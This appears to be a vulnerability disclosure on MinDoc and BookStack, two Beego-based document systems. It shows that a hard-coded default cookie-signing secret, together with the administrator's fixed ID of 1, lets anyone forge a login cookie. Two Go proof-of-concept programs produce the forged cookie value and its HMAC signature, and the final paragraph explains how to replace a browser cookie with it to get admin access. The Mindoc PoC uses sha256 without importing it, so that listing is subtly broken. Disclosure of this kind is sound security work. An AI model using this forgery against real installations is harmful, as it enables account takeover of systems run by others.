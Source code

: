 ## Vulnerable Detail

MinDoc and BookStack are document management system. They both develop their web services based on Beego. Besides, BookStack is based on MinDoc. They have same IDOR vulnerables.

### Execution track

All function are implemented by different **Controller**. **BaseController** (like Parent class) run the **Prepare()** at every beginning.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/1.png)

In **Prepare()**, if applications do not get session information, they try to use cookie to access account.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/22.png)

**GetSecureCookie()** is implemented by beego. In this function, it check if cookie has ***key*** field firstly. Then, it split this field to ***vs***, ***timestamp*** and ***sig*** by '|'. It use sha256/sha1 algorithm and secret key ***Secret*** to encrypt the combination of ***vs*** and ***timestamp***. In the end, if ciphertext == ***sig***, it return the ***vs*** after decode by base64.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/3.png)

In the next step, function **Decode(value,r)** deserialize the value into r. In this scene, ***value*** is the output of **GetSecureCookie()** and ***r*** is the object of the struct ***CookieRemember***.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/5.png)

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/6.png)

After deserialization, appications use ***remember.MemberId*** find the account information and access the account.

### Unsafe logic

In summary, the first problem is in the parameter ***Secret*** of **GetSecureCookie()**. ***Secret*** is come from **conf.GetAppKey()**. This is a static value ("mindoc"/"godoc") and do not ask for changing the value in the setup stage. The second problem is that the default member Id of the administrator is 1. Based on these problems, we can forge the cookie to access the account of the administrator.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/4.png)

### PoC

***PoC for Bookstack***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "godoc"
	h := hmac.New(sha1.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha1，sig:", a)
}
```

***PoC for Mindoc***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "mindoc"
	h := hmac.New(sha256.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha256，sig:", a)
 }
```
After get the fake ***sig*** and ***vs***, we can connect them by '|' (need not to condsider *timestamp*). We replace the original cookie and access the account of the administrator.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/8.png)

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/9.png)

